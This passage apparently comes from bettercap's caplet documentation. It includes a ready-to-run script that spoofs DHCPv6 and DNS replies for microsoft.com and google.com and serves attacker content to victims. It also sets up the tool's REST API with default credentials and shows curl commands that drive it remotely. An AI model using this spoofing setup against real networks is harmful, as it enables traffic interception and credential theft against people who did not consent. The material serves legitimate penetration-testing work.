 [Reroute IPv4 DNS requests by using DHCPv6 replies](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/), start a HTTP server and DNS spoofer for `microsoft.com` and `google.com`.

```sh
# let's spoof Microsoft and Google ^_^
set dns.spoof.domains microsoft.com, google.com
set dhcp6.spoof.domains microsoft.com, google.com

# every http request to the spoofed hosts will come to us
# let's give em some contents
set http.server.path caplets/www

# serve files
http.server on
# redirect DNS request by spoofing DHCPv6 packets
dhcp6.spoof on
# send spoofed DNS replies ^_^
dns.spoof on

# set a custom prompt for ipv6
set $ {by}{fw}{cidr} {fb}> {env.iface.ipv6} {reset} {bold}» {reset}
# clear the events buffer and the screen
events.clear
clear
```

<center>
    <img src="https://pbs.twimg.com/media/DTXrMJJXcAE-NcQ.jpg:large" width="100%"/>
</center>

#### rest-api.cap

Start a rest API.

```sh
# change these!
set api.rest.username bcap
set api.rest.password bcap
# set api.rest.port 8082

# actively probe network for new hosts
net.probe on

# enjoy /api/session and /api/events
api.rest on
```

Get information about the current session:

    curl -k --user bcap:bcap https://bettercap-ip:8083/api/session

Execute a command in the current interactive session:

    curl -k --user bcap:bcap https://bettercap-ip:8083/api/session -H "Content-Type: application/json" -X POST -d '{"cmd":"net.probe on"}'
